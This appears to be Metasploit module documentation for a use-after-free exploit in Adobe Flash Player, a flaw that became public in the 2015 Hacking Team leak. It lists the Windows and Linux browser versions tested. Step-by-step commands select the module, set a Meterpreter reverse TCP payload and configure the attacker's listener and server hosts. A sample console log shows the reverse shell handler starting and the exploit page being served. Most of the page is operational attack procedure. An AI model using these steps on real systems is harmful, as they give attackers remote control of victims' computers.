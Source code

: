 ## Description

This module exploits an use after free on Adobe Flash Player. The vulnerability, discovered by Hacking Team and made public as part of the July 2015 data leak, was described as an Use After Free while handling ByteArray objects. This module has been tested successfully on:
1. Windows 7 SP1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
2. Windows 7 SP1 (32-bit), Firefox 38.0.5 and Adobe Flash 18.0.0.194.
3. Windows 8.1 (32-bit), IE11 and Adobe Flash 18.0.0.194.
4. Windows 8.1 (32-bit), Firefox and Adobe Flash 18.0.0.194.
5. Linux Mint "Rebecca" (32 bits), Firefox 33.0 and Adobe Flash 11.2.202.468.




## Verification Steps

1. Do: ```use exploit/multi/browser/adobe_flash_hacking_team_uaf```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf
msf exploit(adobe_flash_hacking_team_uaf) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(adobe_flash_hacking_team_uaf) > set lhost 172.16.178.160
lhost => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set srvhost 172.16.178.160
srvhost => 172.16.178.160
msf exploit(adobe_flash_hacking_team_uaf) > set uripath /
uripath => /
msf exploit(adobe_flash_hacking_team_uaf) > exploit
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.178.160:4444 
[*] Using URL: http://172.16.178.160:8080/
[*] Server started.
msf exploit(adobe_flash_hacking_team_uaf) > [*] 172.16.178.160   adobe_flash_hacking_team_uaf - Gathering target information for 172.16.178.160
[*] 172.16.178.160   adobe_flash_hacking_team_uaf - Sending HTML response to 172.16.178.160
```

